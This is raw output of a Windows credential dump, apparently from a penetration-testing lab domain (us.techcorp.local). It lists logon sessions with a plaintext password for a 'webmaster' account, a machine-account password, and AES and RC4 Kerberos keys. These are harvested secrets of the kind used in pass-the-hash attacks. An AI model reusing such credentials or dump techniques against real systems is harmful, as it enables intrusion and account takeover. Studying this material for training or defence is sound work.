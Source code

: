 ```
Logon Server      : US-DC
Logon Time        : 1/8/2021 1:57:30 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1140

         * Username : webmaster
         * Domain   : us.techcorp.local
         * Password : 0wnerOftheIntraNetz!
         * Key List :
           aes256_hmac       2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
           aes128_hmac       7376b8c19301e2e5cd4019cea774c5ce
           rc4_hmac_nt       23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_old      23d6458d06b25e463b9666364fb0b29f
           rc4_md4           23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_nt_exp   23d6458d06b25e463b9666364fb0b29f
           rc4_hmac_old_exp  23d6458d06b25e463b9666364fb0b29f

Authentication Id : 0 ; 40031 (00000000:00009c5f)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-90-0-1

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : US-JUMP$
Domain            : US
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:22 AM
SID               : S-1-5-20

         * Username : us-jump$
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       88f63b9e6109aeab1c3d706a8345088659b9784614469099b65bac8fe011b277
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 383689 (00000000:0005dac9)
Session           : RemoteInteractive from 2
User Name         : pawadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:19:24 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1138
```